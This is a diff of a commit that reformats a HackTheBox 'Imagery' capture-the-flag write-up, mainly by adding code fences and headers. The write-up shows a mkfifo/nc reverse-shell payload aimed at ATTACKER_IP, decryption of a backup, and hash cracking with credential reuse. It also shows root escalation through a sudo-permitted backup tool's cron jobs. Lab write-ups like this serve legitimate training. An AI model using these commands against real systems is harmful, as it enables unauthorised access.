

Before and after one commit to martintsenkov/martintsenkov.github.io, a Markdown page: writeups/notes/hackthebox–imagery.md, the part around one of its changes. Shown at 82% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/writeups/notes/HackTheBox–Imagery.md
+++ b/writeups/notes/hackthebox–imagery.md
@@ -79,40 +96,53 @@ After intercepting a transformation request in Burp Suite and testing payloads,
 
 Reverse shell listener:
 
+```bash
 nc -lnvp 9001
-
+```
 
 Payload used:
 
+```bash
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ATTACKER_IP 9001 >/tmp/f
+```
 
 
 Shell obtained:
 
+```bash
 id
 uid=1001(web) gid=1001(web)
+```
 
 
 At this stage, web exploitation transitioned into full system access.
 
-Local Enumeration & Encrypted Backups
+---
+
+## Local Enumeration & Encrypted Backups
 
 Enumeration revealed an encrypted archive in /var/backup:
 
+```bash
 ls -la /var/backup
+```
 
 
 File identified as AES-encrypted using pyAesCrypt:
 
+```bash
 file web_20250806_120723.zip.aes
+```
 
 
 The archive password was recovered via wordlist brute-force using a custom Python script and rockyou.txt.
 
 Decryption:
 
+```bash
 pyAesCrypt -d web_20250806_120723.zip.aes -o web_20250806_120723.zip
 unzip web_20250806_120723.zip
+```
 
 
 The extracted backup contained:
@@ -121,37 +151,51 @@ application source code
 
 db.json with user credentials (MD5 hashes)
 
-User Access
+---
+
+## User Access
 
 Hashes were cracked and reused to switch users:
 
+```bash
 su mark
+```
 
 
 User access confirmed and user flag retrieved.
 
-Privilege Escalation (Root)
+---
+
+## Privilege Escalation (Root)
 
 Checking sudo privileges:
 
+```bash
 sudo -l
+```
 
 
 Result:
 
+```bash
 (ALL) NOPASSWD: /usr/local/bin/charcol
+```
 
 
 Charcol is a backup utility with cron job management functionality.
 
 Entering interactive mode:
 
+```bash
 sudo /usr/local/bin/charcol shell
+```
 
 
 The tool allows scheduling arbitrary commands without validation.
 
-Root Compromise via Cron Abuse
+---
+
+## Root Compromise via Cron Abuse
 
 A malicious cron job was added to execute a reverse shell as root:
 
````
Also changed, not shown: other parts of writeups/notes/hackthebox–imagery.md (+34 -10 lines).
